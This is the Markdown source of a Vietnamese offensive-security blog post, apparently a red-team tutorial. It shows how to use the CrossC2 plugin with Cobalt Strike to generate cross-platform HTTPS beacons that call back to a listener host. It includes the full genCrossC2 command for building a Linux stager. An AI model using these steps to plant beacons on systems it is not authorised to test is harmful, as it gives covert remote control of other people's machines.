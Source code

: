 ```yaml
---
title: "CrossC2 – Generate CobaltStrike’s Cross-Platform Payload"
date: 2021-11-03T18:17:00+07:00
draft: false
categories: [
    "Offensive Security"
]
tags: [
    "Tool",
]
---
```

## Introduce
- "Cobalt Strike is threat emulation software. Execute targeted attacks against modern enterprises with one of the most powerful network attack kits available to penetration testers. This is not compliance testing."

- Nếu như bạn từng sử dụng Cobalt Strike chắc cũng sẽ biết Cobalt Strike không hỗ trợ điều khiển từ xa Linux, MacOS, Android... theo mặc định.

- CrossC2 là một plugin mở rộng hỗ trợ Cobalt Strike điều khiển từ xa các máy chủ Linux, MacOS, Android....Nó hỗ trợ các thư viện động do người dùng chỉ định, tải, thực thi các thư viện này.

- Bạn có thể xem chi tiết về dự án tại đây: https://github.com/gloxec/CrossC2
## Config
### Listener
- Đầu tiên chúng ta sẽ tạo một listener để lắng nghe kết nối từ xa

- Cobalt Strike -> Listener

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/listener.PNG)

- Một điều đáng chú ý ở đây là CrossC2 hiện tại chỉ hỗ trợ Beacon Https. Vậy ta sẽ tạo Beacon HTTPS. Đối với các Beacon khác như HTTP sẽ không thể nhận kết nối.
### Generate beacon
- Ở đây sẽ có 2 phương phương pháp. Chúng ta có thể gen trực tiếp từ binaries mà tác giả đã compile bằng command hoặc install vào Cobalt Strike như một plugin phụ trợ để gen theo dạng Gui. Mình sẽ làm theo cả 2 cách:
#### Gen via command
- Đầu tiên chúng ta sẽ tải binary về tại đây: https://github.com/gloxec/CrossC2/releases

- Cách sử dụng tác giả cũng đã nói rất chi tiết:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/binary.PNG)

- Vì phiên bản Cobalt Strike đang sử dụng là 4.4 nên để gen payload tôi sử dụng lệnh sau:

- `./genCrossC2.Linux IP_Listener 4444 .cobaltstrike.beacon_keys null Linux x64 ./beacon_linux_test stager 4.4`

- cobaltstrike.beacon_keys: được tạo trong cùng thư mục root của Cobalt Strike server khi tạo Listener từ đầu

- Sau khi chạy lệnh thành công tôi nhận được beacon mới trong thư mục hiện tại:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/beacon.PNG)
#### Gen via install plugin
- Đầu tiên chúng ta sẽ tải về:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/save.PNG)

- Và đừng quên tải xuống: https://github.com/gloxec/CrossC2/blob/cs4.1/CrossC2Kit/CrossC2Kit_Loader.cna (including memory loading and other functions)

- Trong CrossC2.cna chúng ta sẽ chỉnh sửa lại path đến binary gen payload và cobaltstrike.beacon_keys cho phù hợp:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/edit.PNG)

- Sau đó chúng ta sẽ tải plugin vào Cobalt Strike: Cobalt Strike -> Script Manager -> Load. Sau khi load xong chúng ta sẽ có thêm chức năng CrossC2 trên thanh Menu. Lúc này ta có thể sử dụng để gen payload:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/menu.PNG)

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/gen.PNG)
## Result
- Sau khi download và thực thi payload tạo dựa trên command hay GUI trên máy chủ Linux:

- ![https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/cross-platform-cobalt-strike/run.PNG)

- Chúng ta có thể làm tương tự để nhận kết nối tự MacOS, Android...
## References

-[https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html](https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html)

